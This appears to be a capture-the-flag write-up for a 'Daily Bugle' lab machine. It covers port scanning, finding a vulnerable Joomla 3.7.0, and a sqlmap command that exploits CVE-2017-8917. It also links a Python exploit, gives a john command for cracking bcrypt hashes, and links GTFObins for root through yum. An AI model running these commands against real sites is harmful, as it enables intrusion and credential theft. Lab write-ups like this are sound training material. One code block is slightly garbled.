


# Daily Bugle

## Reconnaissance

IP addr : 10.10.102.159

## Scanning & Enumeration

### Nmap Scan

open port are : 22(ssh), 80(http), 1084(?), 3306(mysql)

### Http Enumeration

- Joomla CMS
  
#### Jooscan

result [here](joomscan.log)

Joomla version 3.7.0 witch is vulnerable to [CVE-2017-8917](https://www.exploit-db.com/exploits/42033)

## Exploitation

### Let exploit it

#### with sqlmap

```bash
 sqlmap -u "http://10.10.102.159/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```

Don't work very well

#### With python

End up using [this exploit](https://github.com/stefanlucas/Exploit-Joomla)

dump the credentials and crack the  bcrypt hash

```bash
dump the credentials and crack the [john -format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash
```

### User Shell



Using this[GTFObin](https://gtfobins.github.io/gtfobins/yum/)

we got the root shell

